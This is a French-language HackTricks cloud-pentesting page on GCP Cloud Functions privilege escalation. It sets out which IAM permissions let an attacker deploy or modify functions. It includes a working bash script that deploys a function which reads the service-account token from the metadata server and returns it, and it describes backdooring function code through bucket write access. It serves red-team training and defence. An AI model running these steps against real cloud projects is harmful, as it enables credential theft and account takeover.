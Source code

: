 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Plus d'informations sur Cloud Functions :

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaquant avec ces privilèges peut **créer une nouvelle Cloud Function avec du code arbitraire (malveillant) et lui attribuer un compte de service**. Ensuite, il peut récupérer le jeton du compte de service à partir des métadonnées pour élever ses privilèges.\
Certains privilèges pour déclencher la fonction peuvent être requis.

Des scripts d'exploitation pour cette méthode peuvent être trouvés [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) et [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) et le fichier .zip préconstruit peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaquant avec ces privilèges peut **modifier le code d'une fonction et même modifier le compte de service attaché** dans le but d'exfiltrer le jeton.

{% hint style="danger" %}
Pour déployer des cloud functions, vous aurez également besoin de permissions actAs sur le compte de service par défaut ou sur le compte de service utilisé pour construire l'image.
{% endhint %}

Certains privilèges supplémentaires comme la permission `.call` pour la version 1 des cloudfunctions ou le rôle `role/run.invoker` pour déclencher la fonction peuvent être requis.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Si vous obtenez l'erreur `Permission 'run.services.setIamPolicy' denied on resource...`, c'est parce que vous utilisez le paramètre `--allow-unauthenticated` et que vous n'avez pas suffisamment de permissions pour cela.
{% endhint %}

Le script d'exploitation pour cette méthode peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Avec cette permission, vous pouvez obtenir une **URL signée pour pouvoir télécharger un fichier dans un bucket de fonction (mais le code de la fonction ne sera pas modifié, vous devez toujours le mettre à jour)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Je ne suis pas vraiment sûr de l'utilité de cette seule autorisation du point de vue d'un attaquant, mais c'est bon à savoir.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Donnez-vous l'un des précédents privilèges **`.update`** ou **`.create`** pour escalader.

### `cloudfunctions.functions.update`

Avoir uniquement des autorisations **`cloudfunctions`**, sans **`iam.serviceAccounts.actAs`**, vous **ne pourrez pas mettre à jour la fonction DONC CE N'EST PAS UNE ESCALADE VALIDE.**

### Accès en lecture et écriture sur le bucket

Si vous avez un accès en lecture et écriture sur le bucket, vous pouvez surveiller les changements dans le code et chaque fois qu'une **mise à jour dans le bucket se produit, vous pouvez mettre à jour le nouveau code avec votre propre code** afin que la nouvelle version de la Cloud Function s'exécute avec le code backdoor soumis.

Vous pouvez en savoir plus sur l'attaque dans :

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Cependant, vous ne pouvez pas utiliser cela pour pré-compromettre des Cloud Functions tierces car si vous créez le bucket dans votre compte et lui donnez des autorisations publiques afin que le projet externe puisse écrire dessus, vous obtenez l'erreur suivante :

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Cependant, cela pourrait être utilisé pour des attaques DoS.
{% endhint %}

### Accès en lecture et écriture sur l'Artifact Registry

Lorsqu'une Cloud Function est créée, une nouvelle image docker est poussée vers l'Artifact Registry du projet. J'ai essayé de modifier l'image avec une nouvelle et même de supprimer l'image actuelle (et l'image `cache`), mais rien n'a changé, la Cloud Function continue de fonctionner. Par conséquent, il **pourrait être possible d'abuser d'une attaque de condition de course** comme avec le bucket pour changer le conteneur docker qui sera exécuté, mais **modifier simplement l'image stockée n'est pas possible pour compromettre la Cloud Function**.

## Références

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
